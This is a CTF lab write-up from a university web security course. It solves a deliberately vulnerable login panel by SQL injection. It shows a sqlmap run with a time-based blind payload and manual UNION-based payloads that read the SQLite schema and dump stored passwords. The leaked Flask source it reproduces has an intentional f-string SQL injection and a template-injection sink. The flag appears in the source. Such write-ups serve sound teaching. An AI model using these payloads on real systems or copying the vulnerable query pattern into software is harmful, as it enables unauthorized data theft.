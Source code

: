 ```yaml
---
title: Simple Web - 0x03(Lab - Normal Login Panel (Flag 1))
tags: [CTF, Web, eductf]

category: "Security/Course/NTU CS/Web"
---
```


# Simple Web - 0x03(Lab - Normal Login Panel (Flag 1))
<!-- more -->
###### tags: `CTF` `Web` `eductf`
Challenge: https://login.ctf.zoolab.org/

## Background

## Source Code

### Analysis

## Exploit - SQLi

### Easy way - `SQLmap`
```bash!
$ ./sqlmap.py "https://login.ctf.zoolab.org/" --form -dbs sqlite --dump --risk=3 --level=5
...
---
Parameter: username (POST)
    Type: time-based blind
    Title: SQLite > 2.0 AND time-based blind (heavy query)
    Payload: username='||(SELECT CHAR(116,86,90,89) WHERE 7681=7681 AND 7766=LIKE(CHAR(65,66,67,68,69,70,71),UPPER(HEX(RANDOMBLOB(500000000/2)))))||'&password=
---
```

### Hard way - try&error
1. Check if it has `sqli` problem
Payload: `union'`
![](https://i.imgur.com/xIfsghR.png)

2. Try union based
Payload: `admin' union select 1 --` **→ WRONG**
Payload: `admin' union select 1,2 --` **→ WRONG**
Payload: `admin' union select 1,2,3 --` **→ WRONG**
Payload: `admin' union select 1,2,3,4 --`
![](https://i.imgur.com/3G8F2yP.png)
Obviously, it shows some info when select 4 values

3. Must know the metadata
According to the author, it used `sqlite` as its `DBMS`. As [kaibro cheat sheet](https://github.com/w181496/Web-CTF-Cheatsheet#sqlite)
    > 爆表名
    SELECT name FROM sqlite_master WHERE type='table'

    Then we can add this in our request
    Payload: `admin' union select 1,2,3,sql FROM sqlite_master WHERE type='table' --`
    ![](https://i.imgur.com/3OBjg43.png)

    Based on the info we leak, there's a table named `users` with <font color="FF0000">`id`, `username`, `password`,and `count`</font> 4 columns

4. Leak password
Payload: `admin' union select 1,2,3,password FROM users --`
![](https://i.imgur.com/p4d4Ep5.png)


## Result
Then we got source code!!!
:::spoiler code
```python=
from flask import Flask, request, render_template, render_template_string, send_file
from flask_sqlalchemy import SQLAlchemy

db = SQLAlchemy()
app = Flask(__name__)
app.config["SQLALCHEMY_DATABASE_URI"] = "sqlite:///app.db"
db.init_app(app)

with app.app_context():
  db.session.execute("""
    CREATE TABLE IF NOT EXISTS users(
      id Integer PRIMARY KEY,
      username String NOT NULL UNIQUE,
      password String,
      count Integer DEFAULT 0
    );
  """)
  db.session.execute("INSERT OR REPLACE INTO users (username, password) VALUES ('admin', 'FLAG{Un10N_s31eCt/**/F14g_fR0m_s3cr3t}')")
  db.session.commit()

def login(greet):
  if not greet:
    return send_file('app.py', mimetype='text/plain')
  else:
    return render_template_string(f"Hello {greet}")

@app.route('/', methods=["GET", "POST"])
def index():
  if request.method == "GET":
    return render_template('index.html')
  else:
    username = request.form.get('username', '')
    password = request.form.get('password', '')
    error = ''
    user = db.session.execute("SELECT username, password FROM users where username=:username", {"username":username}).first()

    if user and user[1] == password:
      return login(request.form.get('greet', ''))
    elif not user:
      error += "User doesn't exist! "

    # New feature! count login failed event
    db.session.execute("UPDATE users SET count = count + 1 WHERE username=:username", {"username": username})
    db.session.commit()
    count = db.session.execute(f"SELECT * FROM users WHERE username='{username}'").first() or [0, 0, 0, 0]
    error += f'Login faild count: {count[3]}'

    return render_template('index.html', error=error)


if __name__ == "__main__":
  app.run(host="0.0.0.0")
```
:::
